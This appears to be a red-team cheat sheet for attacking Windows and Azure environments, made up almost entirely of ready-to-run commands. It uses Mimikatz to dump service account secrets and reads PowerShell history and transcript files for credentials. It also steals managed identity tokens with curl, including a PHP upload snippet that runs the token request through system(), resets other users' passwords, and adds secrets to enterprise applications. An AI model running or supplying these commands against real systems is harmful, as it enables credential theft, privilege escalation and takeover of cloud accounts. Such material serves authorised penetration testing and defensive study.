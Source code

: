 #### Dump service account passwords
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

### Powershell History
```
type C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Transcript
```
type C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```

## Managed Identity
#### Check for managed identity
- print environment variables and check for IDENTITY_HEADER and IDENTITY_ENDPOINT 
```
env
```

#### Request access token for managed identity
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

#### Request access token for managed identity html file upload
```
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

## Reset password of other users
- Reset password if user has "authentication administrator" role on a group or administrative unit.

```
$password = "<PASSWORD>" | ConvertTo-SecureString -AsPlainText –Force
(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "<ACCOUNT>"}).ObjectId | Set-AzureADUserPassword -Password $Password –Verbose
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```
